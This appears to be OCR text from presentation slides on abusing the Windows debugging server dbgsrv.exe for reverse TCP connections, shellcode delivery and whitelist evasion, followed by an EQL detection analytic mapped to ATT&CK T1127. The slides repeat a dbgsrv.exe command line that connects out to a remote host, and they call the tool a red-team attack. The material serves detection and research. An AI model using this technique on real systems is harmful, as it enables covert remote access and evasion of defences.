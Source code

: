 "C:\Program Files\Debugging Tools for Windows (x64)\dbgsrv.exe -t tcp:clicon=remotedebug.msdn.azure.com,port=22

8044 process

create explorer.exe

"C:\Program Files\Debugging Tools for Windows (x64)\dbgsrv.exe" -t tcp:clicon=remotedebug.msdn.azure.com,port=22

2680 process

create explorer.exe

"C:\Program Files\Debugging Tools for Windows (x64)\dbgsrv.exe" -t tcp:clicon=remotedebug.msdn.azure.com,port=22

2680 network outgoing

10.10.10.129

DBGSRV: A Fantastic Red-Team Attack
Think of this tool as giving you what is functionally equivalent to  Reverse TCP Connection  Process Hollowing  Whitelist Evasion
Disclosed to MSRC, cleared for disclosure. - It is a binary working as designed. It is not an exploit.

DBGSRV : Reverse TCP Connection
MSDN DbgSrv Command-Line Options

DBGSRV : Deliver Shellcode & Execute

DEMO

DBGSRV: Detection
ATT&CK T1127: Trusted Developer Utilities
sequence [process where subtype.create and (process_name == "dbgsrv.exe" or original_file_name == "dbgsrv.exe") ] by unique_pid [network where subtype.outgoing] by unique_pid [process where subtype.create] by unique_ppid

Automate It

EQL Analytics Library
 Library of 100+ detections written in EQL  Mapped to ATT&CK tactics and techniques
 Automatically updated coverage
 Abstracted from specific data sources
 Provide a mapping to your fields  Sysmon already implemented
eqllib.readthedocs.io

EQL Analytics Library

[analytic.metadata] categories = ["detect"] confidence = "medium" contributors = ["Endgame"] created_date = "08/08/2019" description = "Detect dbgsrv.exe used to launch remote debuggers as a potential remote access tool" id = "70814733-e756-4eda-8840-5e16c49304f6" name = "DbgSrv Remote Debugger" os = ["windows"] tactics = ["Execution"] techniques = ["T1127"] updated_date = "08/08/2019"

[analytic]
query = '''
sequence [process where subtype.create and (process_name == "dbgsrv.exe" or original_file_name == "dbgsrv.exe") ] by unique_pid [network where subtype.outgoing ] by unique_pid [process where subtype.create ] by unique_ppid
'''
